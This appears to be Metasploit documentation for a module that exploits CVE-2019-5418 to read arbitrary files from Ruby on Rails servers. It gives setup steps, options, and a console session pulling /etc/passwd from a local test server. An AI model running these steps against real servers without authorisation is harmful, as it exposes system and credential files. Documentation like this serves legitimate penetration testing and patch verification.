 ## Vulnerable Application

  Ruby on Rails versions <= 5.2.2. The following example shows how to recreate the vulnerable environment on Linux:

  https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/

## Verification Steps

  1. Start a Rails server using a vulnerable version 
  2. Start msfconsole
  3. Do: ```use auxiliary/gather/rails_doubletap_file_read```
  4. Do: ```set ROUTE /your_route```
  5. Do: ```set RHOSTS target```
  6. Do: ```set TARGET_FILE /absolute/path/to/remote/file.txt```
  7. Do: ```run```
  8. If everything goes smoothly, you should get the contents of the remote file printed to the console.


## Options

  **ROUTE**

  This is a web path or "route" on the vulnerable server. Since the vulnerability lies within the PathResolver of Rails, the route should be in the server's routes.rb file. 

  **TARGET_FILE**

  This is the file to be read on the remote server. This *must* be an absolute path (eg. /etc/passwd).

## Advanced Options

  **SKIP_CHECK**
  
  This options skips the initial vulnerability check and continues thinking the server is vulnerable. 

## Scenarios

### Version of software and OS as applicable


  ```
msf > use auxiliary/gather/rails_doubletap_file_read
msf auxiliary(gather/rails_doubletap_file_read) > options

Module options (auxiliary/gather/rails_doubletap_file_read):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target address range or CIDR identifier
   ROUTE        /msf             yes       A route on the vulnerable server.
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGET_FILE  /etc/passwd      yes       The absolute path of remote file to read.
   VHOST                         no        HTTP server virtual host

msf auxiliary(gather/rails_doubletap_file_read) > set RHOSTS localhost
RHOSTS => localhost
msf auxiliary(gather/rails_doubletap_file_read) > set RPORT 8000
RPORT => 8000
smsf auxiliary(gather/rails_doubletap_file_read) > set ROUTE /demo
ROUTE => /demo
msf auxiliary(gather/rails_doubletap_file_read) > run
[*] Running module against 127.0.0.1

[+] Target is vulnerable!
[*] Requesting file /etc/passwd
[+] Response from server:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...snip...
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
postgres:x:105:112:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash

[*] Auxiliary module execution completed  
```
